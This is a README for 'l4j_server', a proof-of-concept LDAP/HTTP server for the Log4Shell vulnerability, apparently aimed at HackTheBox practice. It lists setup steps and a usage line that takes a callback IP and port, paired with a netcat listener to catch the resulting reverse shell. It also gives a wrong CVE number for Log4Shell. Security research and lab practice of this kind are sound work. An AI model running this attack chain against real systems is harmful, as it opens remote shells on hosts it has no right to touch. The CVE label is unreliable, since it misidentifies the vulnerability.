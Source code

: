

# l4j_server 
l4j_server is a lightweight, standalone server to be used a POC for the L4J vulnerability associated with Log4Shell (CVE-2021-22448)    


## Screenshot



![l4j_server in action](https://raw.githubusercontent.com/serialwaffle/l4j_server/main/l4j_server.png)


## Dependencies
- [pwntools](https://pypi.org/project/pwntools/)
- [This project runs best on Kali OS](https://www.kali.org/)


## Installation
```
git clone https://github.com/serialwaffle/l4j_server.git
```

Download **jdk-8u202-linux-x64.tar.gz** from:

https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html



Untar jdk in l4j_server repo directory
```
tar -xvf jdk-8u202-linux-x64.tar.gz
```

Create a share directory for payload creation and sharing.
```
mkdir share
```



## Usage
```
python3 l4j_server.py <callback_ip:callback_port> <HTTP_server_port> <LDAP_server_port>

nc -lnvp <callback_port>

```


## Support 
If you appreciate my work and HackTheBox, feel free to give me some respect:  

<a href="https://www.hackthebox.eu/profile/5305"><img src="https://www.hackthebox.eu/badge/image/5305" width="150"></a>


